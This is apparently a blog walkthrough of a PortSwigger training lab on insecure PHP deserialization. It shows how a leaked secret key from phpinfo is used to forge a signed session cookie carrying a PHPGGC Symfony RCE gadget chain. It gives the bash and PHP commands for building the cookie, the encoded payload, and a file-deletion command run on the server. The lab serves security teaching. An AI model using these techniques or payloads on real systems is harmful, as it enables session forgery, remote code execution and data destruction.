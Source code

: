 ```yaml
---
title: "Lab: Exploiting PHP deserialization with a pre-built gadget chain"
published: true
tags: [Web Application Security, Web Security Academy, Labs, Insecure Deserialization, Remote Code Execution, Gadget Chains, PHP, PHPGGC]
image: /blog/assets/supply-chain.png
description: "Lab Description: This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains."
image_width: "256"
image_height: "256"
---
```


<br>
![](/blog/assets/supply-chain.png){: width="256" height="256" fetchpriority="high" loading="eager"}
<br>
[^1]

<br>
### Lab Link
[Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

<br>
### Lab Description
* * *
<br>
This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization[^2] using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

<br>
### Solutions
* * *
<br>
### Solution 1: My Solution
It is recommended to use Linux or a Unix-based operating system for using pre-built gadget chain tools like PHPGGC for PHP or Ysoserial for Java because of powerful bash command tools that are already in your arsenal or can be downloaded easily. So let's begin.

At first, let's get more information by browsing lab pages, when we log in with `wiener:peter` credentials, we see a session cookie in Burp like this:

```
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22e14415c3060a4b056821d84317015c0d8e63b648%22%7D
```

It is a URL-encoded string, which when decoded in Burp decoder we get this:

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ==","sig_hmac_sha1":"e14415c3060a4b056821d84317015c0d8e63b648"}
```

As you can see, it seems that the token part is signed with hmac_sha1 algorithm. Also the token part in this string is base64-encoded, when decoded it is:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vklolvd6l8l207gs0wufk8ldvmw54evp";}
```

It is a serialized PHP object. So we can test if there is any insecure deserialization vulnerability that we can exploit, Since it is a signed session cookie, if we want to edit this serialized object, we need the key for the hash algorithm to sign our payload value so we need to search for clues of the key used. When surfing lab pages, in the source of the website we can find this commented line:

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

so we use this link to open the `phpinfo` page, in this page we can find the secret key:

![](/blog/assets/web-security-academy-php-deserialization-secret-key.png){: width="995" height="424" loading="lazy" decoding="async"}

We test it to make sure this is the key that is used for signing the session cookie.

With this command you can sign a value:

```bash
echo -n "value" | openssl sha1 -hmac "key"
```

We can test this:

```bash
echo -n "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ==" | openssl sha1 -hmac "g8ffja92adxkuz3681mg16suuoo3sbxd"
```

When we run this code we get this signed value:
`e14415c3060a4b056821d84317015c0d8e63b648` and check it with the "sig_hmac_sha1" value in the decoded session cookie above and we see the values are matched, So we can use this secret key to hash our own serialized payload.

Also in the `/cgi-bin/phpinfo.php` page above we can see that the website is using Zend Engine:

![](/blog/assets/web-security-academy-php-deserialization-zend-engine.png){: width="952" height="75" loading="lazy" decoding="async"}

Please pay attention not to confuse Zend engine with Zend Framework so we need to find out more clues about what PHP framework is used so that we can create an appropriate payload for it.

When the session cookie is manipulated in Burp repeater, an error page is returned in response and we get our clue in the error description:

```
Internal Server Error: Symfony Version: 4.3.6
```

So the website is using Symfony framework for PHP. With all this information, we can create our final payload, we use PHPGGC tool to build our payload, first download this tool from its Github page[^3].

Use this command to find related payloads for Symfony framework:

```bash
./phpggc -l symfony
```

We get this list:

![](/blog/assets/web-security-academy-php-deserialization-phpggc.png){: width="822" height="238" loading="lazy" decoding="async"}

We start from the first RCE command in the list and test to see which one is working.

We use the secret key found in our bash command, This bash command is created to do multiple tasks and create a final payload:

```bash
command=$(./phpggc -f -b Symfony/RCE1 "rm /home/carlos/morale.txt");x=$( echo -n $command);y=$(echo -n $x | openssl sha1 -hmac "g8ffja92adxkuz3681mg16suuoo3sbxd" | cut -c 14-);urlencode '{"token":"'$x'","sig_hmac_sha1":"'$y'"}'
```

You can substitute your desired PHPGGC command in the above code and also your own secret key that you've found and get the resulting payload in the correct final format.

In the above command:

`-n` in `echo` command is to remove the trailing newline characters.

`-b` in `phpggc` is to base64 encode the gadget chain.

`-f` in `phpggc` is to fast destruct. Here is the description of this flag from PHPGGC Github page:

"PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. I'd recommend using it for every `__destruct` vector, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first."

So it is recommended to use this flag.

`cut -c 14-` command cuts the resulting string because the result of the signed value of `openssl` command is something like:

```bash
SHA1(stdin)= e14415c3060a4b056821d84317015c0d8e63b648
```

And we should begin at character 14 and remove the additional beginning characters of `SHA1(stdin)= `

So we get this final payload from the above command:

```
%7B%22token%22%3A%22YToyOntpOjc7Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO31pOjc7aTo3O30%3D%22%2C%22sig_hmac_sha1%22%3A%22e6496d1876437637e6aca6a408cc1b7281bec1fd%22%7D
```

We replace this string with the session cookie in Burp repeater and Carlos's `morale.txt` file is deleted and the lab is solved!

<br>
### Solution 2: Web Security Academy's Solution
1. Log in and send a request containing your session cookie to Burp Repeater. Highlight the cookie and look at the **Inspector** panel.

2. Notice that the cookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash.

3. Copy the decoded cookie from the Inspector and paste it into Decoder.

4. In Decoder, highlight the token and then select **Decode as > Base64**. Notice that the token is actually a serialized PHP object.

5. In Burp Repeater, observe that if you try sending a request with a modified cookie, an exception is raised because the digital signature no longer matches. However, you should notice that:

  - A developer comment discloses the location of a debug file at `/cgi-bin/phpinfo.php`.
  - The error message reveals that the website is using the Symfony 4.3.6 framework.

{:start="6"}
6. Request the `/cgi-bin/phpinfo.php` file in Burp Repeater and observe that it leaks some key information about the website, including the `SECRET_KEY` environment variable. Save this key; you'll need it to sign your exploit later.

7. Download the "PHPGGC" tool and execute the following command:

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```

This will generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony to delete Carlos's `morale.txt` file.

{:start="8"}
8. You now need to construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained earlier. You can use the following PHP script to do this. Before running the script, you just need to make the following changes:

  - Assign the object you generated in PHPGGC to the `$object` variable.
  - Assign the secret key that you copied from the `phpinfo.php` file to the `$secretKey` variable.

```php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

This will output a valid, signed cookie to the console.

{:start="9"}
9. In Burp Repeater, replace your session cookie with the malicious one you just created, then send the request to solve the lab.

<br>
### _External Links_
* * *
* #### [Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

<br>
### _References_
* * *
[^1]: Icon made by [Freepik](https://www.flaticon.com/authors/freepik) from [www.flaticon.com](https://www.flaticon.com/)
[^2]: [Insecure deserialization \| Web Security Academy](https://portswigger.net/web-security/deserialization)
[^3]: [PHPGGC: PHP Generic Gadget Chains](https://github.com/ambionics/phpggc)
